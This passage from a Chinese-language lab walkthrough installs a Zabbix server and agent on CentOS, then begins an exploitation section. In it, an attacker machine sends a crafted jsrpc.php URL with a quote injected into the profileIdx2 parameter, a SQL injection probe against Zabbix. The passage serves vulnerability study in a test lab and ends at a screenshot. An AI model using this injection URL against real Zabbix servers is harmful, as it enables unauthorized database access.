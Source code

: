 启动 Zabbix-Server

```plain
/etc/init.d/zabbix-server start
```

启动 Apache

```plain
/etc/init.d/httpd start
```

安装 zabbix-agent 源码

```plain
rpm -ivh http://repo.zabbix.com/zabbix/2.4/rhel/6/x86_64/zabbix-release-2.4-1.el6.noarch.rpm
```

安装 zabbix 客户端

```plain
yum install zabbix-agent -y
```

启动服务

```plain
service zabbix-agent start
chkconfig zabbix-agent on
```

最后浏览器访问[http://IP/zabbix进行配置即可。](http://ip/zabbix%E8%BF%9B%E8%A1%8C%E9%85%8D%E7%BD%AE%E5%8D%B3%E5%8F%AF%E3%80%82)

## 3 漏洞利用

**测试环境：**

攻击机 win7 ip:192.168.10.138

靶机 centos6.5 ip:192.168.10.131

攻击机已知靶机 ip，且靶机系统未关闭默认开启 guest 账户登陆。

在攻击机访问的 zabbix 的地址后面加上如下 url：

```plain
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

[![](assets/1698897433-79811a96f8559db27b782dc912fe964a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181122-986155fe-1290-1.png)
